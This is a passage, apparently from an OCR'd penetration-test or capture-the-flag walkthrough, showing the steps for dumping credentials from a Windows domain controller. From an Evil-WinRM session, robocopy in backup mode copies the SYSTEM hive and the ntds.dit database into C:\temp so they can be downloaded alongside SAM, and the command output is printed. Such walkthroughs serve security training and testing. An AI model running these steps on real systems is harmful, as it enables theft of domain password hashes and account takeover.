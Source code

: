 ```output
   Speed :             250.000 MegaBytes/min.
   Ended : Thursday, October 30, 2025 12:06:53 PM

```

```bash
robocopy /b Z:\Windows\System32\Config C:\temp SYSTEM
```

```output
       Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         0         1         0         0         0
   Files :         1         1         0         0         0         0
   Bytes :   17.00 m   17.00 m         0         0         0         0
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00


   Speed :            94818042 Bytes/sec.
   Speed :            5425.531 MegaBytes/min.
   Ended : Thursday, October 30, 2025 12:07:09 PM

```

The `SYSTEM` hive has been successfully copied to `C:\temp`. Now the `ntds.dit` database file should be copied from `Z:\Windows\NTDS\`.

```bash
robocopy /b Z:\Windows\NTDS C:\temp ntds.dit
```

The `ntds.dit` database file has been successfully copied to `C:\temp`. All necessary files (`ntds.dit`, `SYSTEM`, `SAM`) are now in the `C:\temp` directory for credential extraction.

```output

               Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         0         1         0         0         0
   Files :         1         1         0         0         0         0
   Bytes :   18.00 m   18.00 m         0         0         0         0
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00


   Speed :           109734697 Bytes/sec.
   Speed :            6279.069 MegaBytes/min.
   Ended : Thursday, October 30, 2025 12:07:36 PM


```

The files `ntds.dit`, `SAM`, and `SYSTEM` are confirmed present in `C:\temp`. They can now be downloaded.

```bash
Evil-WinRM* PS C:\ProgramData\temp> ls C:\temp\


    Directory: C:\temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/30/2025   9:03 AM       18874368 ntds.dit
-a----        4/10/2023   6:29 PM          65536 SAM
-a----        4/10/2023   6:29 PM       17825792 SYSTEM
```
